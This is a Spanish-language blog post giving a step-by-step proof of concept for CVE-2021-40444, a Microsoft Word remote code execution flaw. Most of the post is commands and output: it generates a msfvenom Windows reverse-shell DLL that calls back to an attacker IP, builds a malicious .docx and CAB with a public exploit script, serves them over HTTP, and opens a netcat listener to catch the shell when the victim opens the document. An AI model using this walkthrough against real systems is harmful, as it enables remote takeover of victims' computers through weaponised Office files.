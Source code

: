```yaml
---
layout: single
title: POC CVE-2021-40444
excerpt: "Buenas hoy os traigo un POC del reciente exploit CVE-2021-40444, como vamos a ver podemos ejecutar comandos en sistema windows remoto a traves de la creacion de un archivo Word malicioso"
date: 2021-09-18
classes: wide
header:
  teaser: /assets/images/POC-CVE-2021-40444/logo.jpg
  teaser_home_page: true
  icon: 
categories:
  - POC CVE
  - infosec
tags:
  -   CVE
  -   Video
---
```


# POC CVE-2021-40444

Hoy voy a enseñaros paso a paso como realizar este ataque, es una vulnerabilidad que ha salido hace muy poco, y básicamente lo que vamos a explotar es un fallo en Word Office, abriendo un documento malicioso vamos a ganar acceso al sistema fácilmente, actualmente el Windows Defender lo detecta, pero seguro que os gusta.

Para ello vamos a necesitar un sistema operativo de atacante (en mi caso Kali Linux) y un sistema operativo que queremos vulnerar (Windows 10), tendréis que instalar el Word Office para que funcione.

## 1º Paso

Nos descargaremos el contenido de este repositorio: [link](https://github.com/lockedbyte/CVE-2021-40444) 

```bash
root@kali /home/kali/Desktop/POC/CVE-2021-40444 master
❯ ls
 data   out   test             exploit.py     POC.mp4     REPRODUCE.md
 img    srv   deobfuscate.py   patch_cab.py   README.md
```

## 2º Paso

Vamos a borrar el archivo creado en test → calc.dll

Este repositorio lo que explota es ejecutar un comando en el sistema, en este caso abre una calculadora en el sistema a vulnerar, pero nosotros queremos ganar acceso.

Así que vamos a construirnos nuestra propia reverse shell con `msfvenom`

```bash
root@kali /home/kali/Desktop/POC/CVE-2021-40444/test master*
❯ msfvenom -p windows/shell_reverse_tcp lhost=192.168.234.130 lport=443 -f dll > calc.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 8704 bytes
```

Le damos permisos Full 

```bash
root@kali /home/kali/Desktop/POC/CVE-2021-40444/test master*
❯ chmod 777 calc.dll
                                                                                            

root@kali /home/kali/Desktop/POC/CVE-2021-40444/test master*
❯ ls -la
drwxr-xr-x root root 4.0 KB Sat Sep 18 11:20:29 2021  .
drwxr-xr-x root root 4.0 KB Sat Sep 18 11:18:21 2021  ..
.rwxrwxrwx root root 8.5 KB Sat Sep 18 11:20:34 2021  calc.dll
```

Ejecutamos el exploit de esta forma:

```bash
❯ python3 exploit.py generate test/calc.dll http://192.168.234.130
[%] CVE-2021-40444 - MS Office Word RCE Exploit [%]
[*] Option is generate a malicious payload...

[ == Options == ]
        [ DLL Payload: test/calc.dll
        [ HTML Exploit URL: http://192.168.234.130

[*] Writing HTML Server URL...
[*] Generating malicious docx file...
  adding: [Content_Types].xml (deflated 75%)
  adding: _rels/ (stored 0%)
  adding: _rels/.rels (deflated 61%)
  adding: docProps/ (stored 0%)
  adding: docProps/app.xml (deflated 48%)
  adding: docProps/core.xml (deflated 50%)
  adding: word/ (stored 0%)
  adding: word/webSettings.xml (deflated 57%)
  adding: word/settings.xml (deflated 63%)
  adding: word/_rels/ (stored 0%)
  adding: word/_rels/document.xml.rels (deflated 75%)
  adding: word/fontTable.xml (deflated 74%)
  adding: word/styles.xml (deflated 89%)
  adding: word/document.xml (deflated 85%)
  adding: word/theme/ (stored 0%)
  adding: word/theme/theme1.xml (deflated 79%)
[*] Generating malicious CAB file...
[*] Updating information on HTML exploit...
[+] Malicious Word Document payload generated at: out/document.docx
[+] Malicious CAB file generated at: srv/word.cab
[i] You can execute now the server and then send document.docx to target
```

Ya tenemos creado nuestro documento word con nuestro codigo malicioso

## 4º Paso

Ejecutamos el exploit de nuevo de esta forma para compartirnos un servicio web con python:

```bash
❯ python3 exploit.py host 80                                   
[%] CVE-2021-40444 - MS Office Word RCE Exploit [%]
[*] Option is host HTML Exploit...
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Y tambien nos ponemos en escucha:

`rlwrap nc -nlvp 443`

```bash
root@kali /home/kali/Desktop/POC
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
```

## 5º Paso

Pasamos el documento word que se ha creado en /out

```bash
root@kali /home/kali/Desktop/POC/CVE-2021-40444/out master*
❯ ls
 0-blank   document.docx
```

[![Watch the video](/assets/images/POC-CVE-2021-40444/video1.png)](https://youtu.be/x39Lc2l97Ao)



Abrimos el documento Word y BOOM! :)

[ganningaccess.mp4](/assets/images/POC-CVE-2021-40444/ganningaccess.mp4)


